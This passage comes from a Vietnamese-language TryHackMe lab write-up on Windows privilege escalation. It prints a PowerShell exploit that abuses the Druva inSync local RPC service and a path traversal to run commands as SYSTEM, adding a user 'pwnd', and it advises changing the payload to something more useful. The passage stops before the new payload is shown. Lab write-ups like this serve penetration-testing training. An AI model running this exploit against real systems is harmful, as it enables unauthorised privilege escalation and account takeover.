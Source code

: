     $cmd = "net user pwnd /add"

    $s = New-Object System.Net.Sockets.Socket(
        [System.Net.Sockets.AddressFamily]::InterNetwork,
        [System.Net.Sockets.SocketType]::Stream,
        [System.Net.Sockets.ProtocolType]::Tcp
    )
    $s.Connect("127.0.0.1", 6064)

    $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
    $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
    $command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
    $length = [System.BitConverter]::GetBytes($command.Length);

    $s.Send($header)
    $s.Send($rpcType)
    $s.Send($length)
    $s.Send($command)

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image235.png?raw=true)

Có thể mở bảng điều khiển Powershell và dán trực tiếp phần khai thác để thực thi nó

Payload mặc định của kẻ khai thác, được chỉ định trong biến $cmd, sẽ tạo một người dùng có tên pwnd trong hệ thống, nhưng sẽ không gán cho anh ta đặc quyền quản trị, vì vậy thay đổi payload để có thứ gì đó hữu ích hơn. Thay đổi payload để chạy lệnh sau:

